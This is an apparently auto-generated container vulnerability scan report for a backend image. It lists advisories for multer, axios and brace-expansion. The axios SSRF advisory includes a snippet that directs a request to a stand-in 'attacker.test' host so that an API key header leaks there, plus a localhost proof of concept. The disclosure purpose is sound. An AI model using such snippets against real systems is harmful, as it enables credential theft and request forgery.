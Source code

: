 <h2>:mag: Vulnerabilities of <code>adityagaikwad888/healthnodes-backend:20</code></h2>

<details open="true"><summary>:package: Image Reference</strong> <code>adityagaikwad888/healthnodes-backend:20</code></summary>
<table>
<tr><td>digest</td><td><code>sha256:f7cef0528c0feb014c7ef74fc118843f3796dac7248003542573aa72ac2aebb6</code></td><tr><tr><td>vulnerabilities</td><td><img alt="critical: 0" src="https://img.shields.io/badge/critical-0-lightgrey"/> <img alt="high: 2" src="https://img.shields.io/badge/high-2-e25d68"/> <img alt="medium: 0" src="https://img.shields.io/badge/medium-0-lightgrey"/> <img alt="low: 1" src="https://img.shields.io/badge/low-1-fce1a9"/> <!-- unspecified: 0 --></td></tr>
<tr><td>platform</td><td>linux/amd64</td></tr>
<tr><td>size</td><td>92 MB</td></tr>
<tr><td>packages</td><td>205</td></tr>
</table>
</details></table>
</details>

<table>
<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 1" src="https://img.shields.io/badge/H-1-e25d68"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>multer</strong> <code>1.4.5-lts.1</code> (npm)</summary>

<small><code>pkg:npm/multer@1.4.5-lts.1</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-47935?s=github&n=multer&t=npm&vr=%3C2.0.0"><img alt="high 7.5: CVE--2025--47935" src="https://img.shields.io/badge/CVE--2025--47935-lightgrey?label=high%207.5&labelColor=e25d68"/></a> <i>Missing Release of Memory after Effective Lifetime</i>

<table>
<tr><td>Affected range</td><td><code><2.0.0</code></td></tr>
<tr><td>Fixed version</td><td><code>2.0.0</code></td></tr>
<tr><td>CVSS Score</td><td><code>7.5</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.049%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>15th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

### Impact

Multer <2.0.0 is vulnerable to a resource exhaustion and memory leak issue due to improper stream handling. When the HTTP request stream emits an error, the internal `busboy` stream is not closed, violating Node.js stream safety guidance.

This leads to unclosed streams accumulating over time, consuming memory and file descriptors. Under sustained or repeated failure conditions, this can result in denial of service, requiring manual server restarts to recover. All users of Multer handling file uploads are potentially impacted.


### Patches

Users should upgrade to `2.0.0`


### Workarounds

None

### References

- https://github.com/expressjs/multer/pull/1120
- https://github.com/expressjs/multer/commit/2c8505f207d923dd8de13a9f93a4563e59933665

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 1" src="https://img.shields.io/badge/H-1-e25d68"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>axios</strong> <code>1.7.9</code> (npm)</summary>

<small><code>pkg:npm/axios@1.7.9</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-27152?s=github&n=axios&t=npm&vr=%3E%3D1.0.0%2C%3C1.8.2"><img alt="high 7.7: CVE--2025--27152" src="https://img.shields.io/badge/CVE--2025--27152-lightgrey?label=high%207.7&labelColor=e25d68"/></a> <i>Server-Side Request Forgery (SSRF)</i>

<table>
<tr><td>Affected range</td><td><code>>=1.0.0<br/><1.8.2</code></td></tr>
<tr><td>Fixed version</td><td><code>1.8.2</code></td></tr>
<tr><td>CVSS Score</td><td><code>7.7</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N/E:P</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.021%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>4th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

### Summary

A previously reported issue in axios demonstrated that using protocol-relative URLs could lead to SSRF (Server-Side Request Forgery).
Reference: axios/axios#6463

A similar problem that occurs when passing absolute URLs rather than protocol-relative URLs to axios has been identified. Even if ⁠`baseURL` is set, axios sends the request to the specified absolute URL, potentially causing SSRF and credential leakage. This issue impacts both server-side and client-side usage of axios.

### Details

Consider the following code snippet:

```js
import axios from "axios";

const internalAPIClient = axios.create({
  baseURL: "http://example.test/api/v1/users/",
  headers: {
    "X-API-KEY": "1234567890",
  },
});

// const userId = "123";
const userId = "http://attacker.test/";

await internalAPIClient.get(userId); // SSRF
```

In this example, the request is sent to `http://attacker.test/` instead of the `baseURL`. As a result, the domain owner of `attacker.test` would receive the `X-API-KEY` included in the request headers.

It is recommended that:

-	When `baseURL` is set, passing an absolute URL such as `http://attacker.test/` to `get()` should not ignore `baseURL`.
-	Before sending the HTTP request (after combining the `baseURL` with the user-provided parameter), axios should verify that the resulting URL still begins with the expected `baseURL`.

### PoC

Follow the steps below to reproduce the issue:

1.	Set up two simple HTTP servers:

```
mkdir /tmp/server1 /tmp/server2
echo "this is server1" > /tmp/server1/index.html 
echo "this is server2" > /tmp/server2/index.html
python -m http.server -d /tmp/server1 10001 &
python -m http.server -d /tmp/server2 10002 &
```


2.	Create a script (e.g., main.js):

```js
import axios from "axios";
const client = axios.create({ baseURL: "http://localhost:10001/" });
const response = await client.get("http://localhost:10002/");
console.log(response.data);
```

3.	Run the script:

```
$ node main.js
this is server2
```

Even though `baseURL` is set to `http://localhost:10001/`, axios sends the request to `http://localhost:10002/`.

### Impact

-	Credential Leakage: Sensitive API keys or credentials (configured in axios) may be exposed to unintended third-party hosts if an absolute URL is passed.
-	SSRF (Server-Side Request Forgery): Attackers can send requests to other internal hosts on the network where the axios program is running.
-	Affected Users: Software that uses `baseURL` and does not validate path parameters is affected by this issue.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 1" src="https://img.shields.io/badge/L-1-fce1a9"/> <!-- unspecified: 0 --><strong>brace-expansion</strong> <code>1.1.11</code> (npm)</summary>

<small><code>pkg:npm/brace-expansion@1.1.11</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-5889?s=github&n=brace-expansion&t=npm&vr=%3E%3D1.0.0%2C%3C%3D1.1.11"><img alt="low 1.3: CVE--2025--5889" src="https://img.shields.io/badge/CVE--2025--5889-lightgrey?label=low%201.3&labelColor=fce1a9"/></a> <i>Uncontrolled Resource Consumption</i>

<table>
<tr><td>Affected range</td><td><code>>=1.0.0<br/><=1.1.11</code></td></tr>
<tr><td>Fixed version</td><td><code>1.1.12</code></td></tr>
<tr><td>CVSS Score</td><td><code>1.3</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:H/AT:N/PR:L/UI:N/VC:N/VI:N/VA:L/SC:N/SI:N/SA:N/E:P/CR:X/IR:X/AR:X/MAV:X/MAC:X/MAT:X/MPR:X/MUI:X/MVC:X/MVI:X/MVA:X/MSC:X/MSI:X/MSA:X/S:X/AU:X/R:X/V:X/RE:X/U:X</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.052%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>16th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

A vulnerability was found in juliangruber brace-expansion up to 1.1.11/2.0.1/3.0.0/4.0.0. It has been rated as problematic. Affected by this issue is the function expand of the file index.js. The manipulation leads to inefficient regular expression complexity. The attack may be launched remotely. The complexity of an attack is rather high. The exploitation is known to be difficult. The exploit has been disclosed to the public and may be used. Upgrading to version 1.1.12, 2.0.2, 3.0.1 and 4.0.1 is able to address this issue. The name of the patch is `a5b98a4f30d7813266b221435e1eaaf25a1b0ac5`. It is recommended to upgrade the affected component.

</blockquote>
</details>
</details></td></tr>
</table>


